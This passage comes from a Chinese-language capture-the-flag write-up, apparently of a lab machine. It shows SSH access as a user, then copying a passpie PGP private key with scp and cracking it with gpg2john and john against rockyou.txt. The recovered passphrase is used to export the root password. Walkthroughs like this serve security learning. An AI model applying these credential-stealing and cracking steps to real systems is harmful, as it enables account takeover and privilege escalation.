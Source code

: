 ```
ssh jnelson@10.10.11.186
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e5e10cd78c704695a91c39ecf6e024c6.png)

成功获得用户权限
# 破解私钥提权
登录之后，我查看了当前文件夹下的所有文件，发现了passpie程序的文件夹，这个程序是用来管理密码的

![在这里插入图片描述](https://img-blog.csdnimg.cn/c6f238e91f6a46b9bfcb195589f9d2d7.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d42a828df7440f281273aa8d156aced.png)


进去找了一下，发现了一个pgp私钥文件，我们先将.keys文件下载到本地，其实kali本地创建一个文件，然后复制粘贴也可以
```
scp jnelson@10.10.11.186:.passpie/.keys .keys
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/883bdbc9981341bebd42aa364b782b70.png)

这个.keys里有两个密钥，一个公钥，一个私钥，我把公钥删了，不然等一下工具用不了，然后把文件改个名

![在这里插入图片描述](https://img-blog.csdnimg.cn/c01c43dc303b4edda8e71b8ad0c62c0b.png)


先用gpg2john将key文件转换为john可爆破的格式，然后用john爆破
```
gpg2john key > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/66a4938e3202433a879d55bc41484f9c.png)
```
passpie密码为：blink182
```


爆破出密码后回到靶机，查看passpie里存放的密码，输入密码得到root密码
```
passpie list
passpie export pass
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f98ddfea773b45f5b153f828f4f7f6a7.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/cb67d86297d94e8c865828958d4b8d9b.png)

